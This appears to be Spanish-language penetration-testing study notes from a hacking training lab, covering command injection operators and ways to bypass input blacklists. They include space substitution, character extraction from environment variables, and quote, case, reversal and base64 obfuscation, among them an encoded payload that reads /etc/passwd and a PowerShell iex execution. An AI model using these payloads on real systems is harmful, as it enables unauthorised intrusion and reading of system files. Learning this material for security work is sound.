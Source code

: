 ## Cheet shit 

Sirve para todos los lengaujes:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |
## Bypassing blacklisted

#### espacios
`%09` -> tabs

`${IFS}` ->Linux Environment Variable(por default se sustituye a un espacio)

con Braces

```shell-session
{ls,-la}
```

#### Chars

##### Linux
```
┌──(bonack㉿kali)-[~]  
└─$ echo ${PATH:0:1}  
  
/
```

```
bonack@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

```shell-session
bonack@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
bonack@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```


##### Windows

CMD

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

Power-Shell

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\
```

#### Commands

COMILLAS

(el numero de comillas que le metas tiene que ser par)

```
w'h'o'am'i
w"h"o"am"i
```

Solo para linux:

```bash
who$@ami
w\ho\am\i
```

```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```shell-session
$(rev<<<'imaohw')
```
(lo encodeado es el comando)
```shell-session
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

Solo Windos:

```cmd-session
C:\htb> who^ami
```

```powershell-session
PS C:\htb> WhOaMi
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```
(lo encodeado es whoami)
```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))
```

